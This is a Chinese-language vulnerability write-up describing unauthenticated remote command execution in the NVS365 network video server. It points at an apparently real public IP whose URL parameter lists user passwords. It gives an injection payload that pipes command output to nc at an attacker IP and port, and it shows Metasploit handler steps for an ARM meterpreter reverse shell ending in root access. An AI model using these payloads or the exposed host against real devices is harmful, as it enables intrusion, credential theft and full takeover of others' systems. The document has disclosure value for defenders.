# NVS365网络视频服务器后台任意命令执行漏洞

# 

# 该漏洞关联上一份漏洞 《NVS365网络视频服务器密码信息未授权访问漏洞》

其实也不用关联
后面发现不需要登陆也可以触发命令执行漏洞，只需要请求url和提交data就行

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

{width="5.764583333333333in"
height="1.9277777777777778in"}

漏洞版本：

NVS-365-V01

{width="5.764583333333333in"
height="3.66875in"}

该漏洞可任意触发任意命令，获取服务器shell等

[http://188.59.188.232:8085/?jcpcmd=userpasswd%20-act%20list](http://188.59.188.232:8085/?jcpcmd=userpasswd -act list)

{width="5.760416666666667in"
height="0.9388888888888889in"}

在网络管理这块 可直接触发RCE漏洞

{width="5.764583333333333in"
height="2.6305555555555555in"}

{width="5.75in"
height="2.5805555555555557in"}

Wget:

{width="5.761111111111111in"
height="3.029861111111111in"}

{width="5.7659722222222225in"
height="3.1680555555555556in"}

{width="5.756944444444445in"
height="3.079861111111111in"}

触发命令执行命令

Pwd:

result=%09%09&address=\|pwd\|nc ip 端口 &size=16

{width="5.7625in"
height="0.3840277777777778in"}

Uname -a

{width="5.761111111111111in"
height="3.9583333333333335in"}

Id: root权限

{width="5.758333333333334in"
height="2.7375in"}

上传shell，metasploit生成linux ram木马

{width="5.7625in"
height="3.7423611111111112in"}

Msf监听：

msf \> use exploit/multi/handler

msf \> set payload linux/armle/meterpreter/reverse_tcp

msf \> set LHOST xxx.xxx.xxx.xxx

msf \> set PORT 4466

msf \> run

{width="5.763194444444444in"
height="5.479166666666667in"}

进入shell

{width="2.8645833333333335in"
height="0.875in"}

未授权rce。。。

而后确认到不需要登陆也可以命令执行

{width="5.768055555555556in"
height="1.96875in"}
